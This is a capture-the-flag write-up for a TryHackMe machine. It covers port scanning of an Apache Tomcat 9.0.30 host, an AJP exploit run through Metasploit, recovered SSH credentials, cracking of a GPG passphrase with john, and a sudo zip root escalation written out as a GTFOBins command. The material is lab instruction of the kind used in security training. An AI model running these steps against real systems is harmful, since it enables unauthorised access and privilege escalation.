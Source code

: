 
## Enumeration

```
 rustscan -a 10.10.177.90
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: http://discord.skerritt.blog         :
: https://github.com/RustScan/RustScan :
 --------------------------------------
Scanning ports: The virtual equivalent of knocking on doors.

[~] The config file is expected to be at "/home/k21/.rustscan.toml"
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.177.90:53
Open 10.10.177.90:22
Open 10.10.177.90:8009
Open 10.10.177.90:8080
[~] Starting Script(s)
[~] Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-12 15:03 +0545
Initiating Ping Scan at 15:03
Scanning 10.10.177.90 [4 ports]
Completed Ping Scan at 15:03, 0.19s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 15:03
Completed Parallel DNS resolution of 1 host. at 15:03, 0.00s elapsed
DNS resolution of 1 IPs took 0.00s. Mode: Async [#: 2, OK: 1, NX: 0, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating SYN Stealth Scan at 15:03
Scanning 10.10.177.90 (10.10.177.90) [4 ports]
Discovered open port 22/tcp on 10.10.177.90
Discovered open port 8080/tcp on 10.10.177.90
Discovered open port 8009/tcp on 10.10.177.90
Discovered open port 53/tcp on 10.10.177.90
Completed SYN Stealth Scan at 15:03, 0.20s elapsed (4 total ports)
Nmap scan report for 10.10.177.90 (10.10.177.90)
Host is up, received echo-reply ttl 60 (0.17s latency).
Scanned at 2025-02-12 15:03:21 +0545 for 0s

PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 60
53/tcp   open  domain     syn-ack ttl 60
8009/tcp open  ajp13      syn-ack ttl 60
8080/tcp open  http-proxy syn-ack ttl 60

Read data files from: /usr/share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.58 seconds
           Raw packets sent: 8 (328B) | Rcvd: 5 (204B)


```

```
 nmap -sVC 10.10.177.90
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-12 15:02 +0545
Nmap scan report for 10.10.177.90 (10.10.177.90)
Host is up (0.17s latency).
Not shown: 996 closed tcp ports (reset)
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.68 seconds

```

Hmm I can see this too.
![](Pasted%20image%2020250212150938.png)
Hmm I just searched for a exploit of `# Apache Tomcat/9.0.30`.
Hoping if we find anything special and it worked.
![](Pasted%20image%2020250212151117.png)

So it is metasploit exploit.
I searched on msfconsole for making it simple.
![](Pasted%20image%2020250212151531.png)
And exploited it.
![](Pasted%20image%2020250212151557.png)
Hmm we got the username and password.
Hmmm.
`skyfuck:8730281lkjlkjdqlksalks`

![](Pasted%20image%2020250212151837.png)
And it worked on ssh.
![](Pasted%20image%2020250212152050.png)

Now lets do privelege escalation.
And found few things.
![](Pasted%20image%2020250212152257.png)
Hmmmm.
Now we can import that private gpg key in `tryhackme.asc`.
`gpg --import tryhackme.asc`
After this,
we can check this.
`gpg --list-secret-keys`
And do this.
` gpg --decrypt credential.pgp`

And it should be decrypted but there is a twist.
![](Pasted%20image%2020250212152808.png)
Its asking for a passphrase.
Hmmmm.


Then,I downloaded that both file to my host.
I used john to get hash and crack passphrase.
`gpg2john tryhackme.asc > hash.txt`
![](Pasted%20image%2020250212154903.png)
And simply cracked with john.
`john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt `
![](Pasted%20image%2020250212154941.png)
`alexandru`

And we decrypted that `credential.pgp`.
![](Pasted%20image%2020250212155130.png)
`merlin:asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`
![](Pasted%20image%2020250212155234.png)

Hmm now lets try to become root.
And we can see something.
![](Pasted%20image%2020250212155329.png)
Now I immediately go to.
[[https://gtfobins.github.io/gtfobins/zip/#sudo]]

And got this.
```
Sudo(https://gtfobins.github.io/gtfobins/zip/#sudo)

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

    TF=$(mktemp -u)
    sudo zip $TF /etc/hosts -T -TT 'sh #'
    sudo rm $TF

```

![](Pasted%20image%2020250212155617.png)
And exploited this and got root.
![](Pasted%20image%2020250212155645.png)

And done.
![](Pasted%20image%2020250212155753.png)
